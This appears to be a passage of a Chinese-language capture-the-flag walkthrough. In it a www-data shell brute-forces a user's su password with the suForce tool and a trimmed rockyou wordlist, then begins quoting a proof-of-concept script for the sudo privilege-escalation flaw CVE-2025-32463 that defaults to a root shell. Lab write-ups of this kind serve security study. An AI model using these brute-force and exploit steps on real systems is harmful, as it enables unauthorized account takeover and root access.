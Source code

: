 ```
 ❓  Usage: suForce [OPTIONS]

 🌐  Get a user password with the su binary.

 📋  Options:
       -u <USER>      Specify the username you want to attack.
       -w <WORDLIST>  Specify the path where the wordlist is located.
       -h             Display this help message and exit.

 💡  Examples:
       suForce -u root -w rockyou.txt
       suForce -h 

───────────────────────────────────

```

我这偷个鸡，我知道是9000行左右的，我提取1w行，然后从后往前爆破

```
www-data@5ud0:/tmp$ head -n 10000 rockyou.txt |tac > passwd.txt
www-data@5ud0:/tmp$ ls -al passwd.txt 
-rw-rw-rw- 1 www-data www-data 80577 Jul 15 09:41 passwd.txt
www-data@5ud0:/tmp$ ./suForce -u todd -w passwd.txt 
            _____                          
 ___ _   _ |  ___|__  _ __ ___ ___   
/ __| | | || |_ / _ \| '__/ __/ _ \ 
\__ \ |_| ||  _| (_) | | | (_|  __/  
|___/\__,_||_|  \___/|_|  \___\___|  
───────────────────────────────────
 code: d4t4s3c     version: v1.0.0
───────────────────────────────────
🎯 Username | todd
📖 Wordlist | passwd.txt
🔎 Status   | 8/10000/0%/nopassword
💥 Password | nopassword
───────────────────────────────────

```

登上去

```
www-data@5ud0:/tmp$ su todd
Password: 
todd@5ud0:/tmp$ id
uid=1000(todd) gid=1000(todd) groups=1000(todd)
```

https://github.com/pr0v3rbs/CVE-2025-32463_chwoot

漏洞poc

```
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

if [ $# -eq 0 ]; then
    # If no command is provided, default to an interactive root shell.
    CMD="/bin/bash"
else
    # Otherwise, use the provided arguments as the command to execute.
    CMD="$@"
```